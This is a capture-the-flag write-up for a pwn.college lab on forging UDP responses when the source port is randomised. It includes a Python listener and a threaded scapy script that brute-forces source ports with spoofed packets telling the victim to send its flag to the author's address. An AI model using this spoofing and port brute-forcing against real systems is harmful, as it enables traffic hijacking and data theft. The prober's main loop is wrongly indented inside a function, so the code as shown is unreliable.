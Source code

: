 # Problem Statement
Of course, the previous spoofing worked because you know the source port that the client was using, and were thus able to forge the server's response. This was, in fact, at the core of a very famous vulnerability in the Domain Name System that facilitates the translation of host names like https://pwn.college to the appropriate IP addresses. The vulnerability allowed attackers to forge responses from DNS servers and redirect victims to IP addresses of their choice!

The fix for that vulnerability was to randomize the source port that DNS requests go out from. Likewise, this challenge no longer binds the source port to 31338. Can you still force the response?

HINT: The source port is only set once per socket, whether at bind time or at the first sendto. What do you do when there's a fixed number that you don't know?

## Observations
 - In order to narrow down the bruteforce probe, I looked up conventions for private ports and Linux seems to use (32768-60999). The solution
   adheres to this at least, but I ended up just going for all non-well-known ports (>1024). This is done in batches so that the system isn't overloaded with threads
 - Starting to bruteforce from the end of the list might be more efficient in the above scenario. 60 batches take only a few minutes anyway.
 - It isn't strictly necessary to have a listener running. The program output will tell you which port was discovered (along with a bunch of false positives, but the packet summary printed gives you unequivocally the source port).
   - ```
     # Output excerpt. It is port 43454 that we want as it is the source port in the packet summary
     IP / UDP 10.0.0.2:43454 > 10.0.0.1:31337 / Raw
     IP / UDP 10.0.0.2:43454 > 10.0.0.1:31337 / Raw
     IP / UDP 10.0.0.2:43454 > 10.0.0.1:31337 / Raw
     IP / UDP 10.0.0.2:43454 > 10.0.0.1:31337 / Raw
     Port 43539
     Port 43478
     Port 43521
     Port 43527
     Port 43520
     ```
 - If you don't want to have a listener in the background, using scapy to send the flag exfiltration message with the function `sr1` once you figure out the port should return you the flag (I did this for the previous challenge).
   In that case, remove the scapy import line at the top of the port prober code and you can run the code directly from scapy.

# Solution
## Listener  (not strictly necessary, just makes it easier)
- `python udp_listener.py > udp_listener.log &`
```
from socket import *

s = socket(AF_INET, SOCK_DGRAM)
s.bind(("0.0.0.0", 31337))
print("If you read this, I'm listening...")
msg, addr = s.recvfrom(4096)
print(f"Received from {addr}: {msg.decode()}")

```

## Port prober
- `python udp_prober.py`
```
import threading
from scapy.all import *

# This is just to split the ~60k ports to probe into chunks to limit threads to ~1k at a time.
def split_range(start, end, num_chunks):
    step = (end - start) // num_chunks
    ranges = []

    for i in range(num_chunks):
        chunk_start = start + i * step
        chunk_end = start + (i + 1) * step if i < num_chunks - 1 else end
        ranges.append((chunk_start, chunk_end))

    return ranges


def probe_port(ip, port, results):
    if port == 31337: # not saving much by excluding this one port, but we already know it isn't this one
        results[port] = False
        return

    pkt = IP(dst=ip)/UDP(sport=31337, dport=port)/Raw(load=f"FLAG:10.0.0.1:31337") # any port will do in our payload, just match the listener if any or leave this to use sr1
    reply = sr1(pkt, timeout=1)
    if reply is None:
        results[port] = False
    elif reply.haslayer(ICMP) and reply.getlayer(ICMP).type == 3 and reply.getlayer(ICMP).code == 3:
        results[port] = False
    else:
        print(reply)
        results[port] = True # Note: if running a listener, this will generate a bunch of false positives.

    ip = "10.0.0.2"
    
    start_port = 1024 # could optimize this probably starting  from at least 30000
    end_port = 65536

    for chunk in split_range(start_port, end_port, 60): # whatever chunk size is chosen, try to keep port ranges below 1k
        results = {}
        threads = []
        print(f"Processing: {chunk}")

        for port in range(chunk[0], chunk[1]):
            t = threading.Thread(target=probe_port, args=(ip, port, results))
            threads.append(t)
            t.start()

        for t in threads:
            t.join()

        for port, isopen in results.items():
            if isopen:
                print(f"Port {port}")
    ```


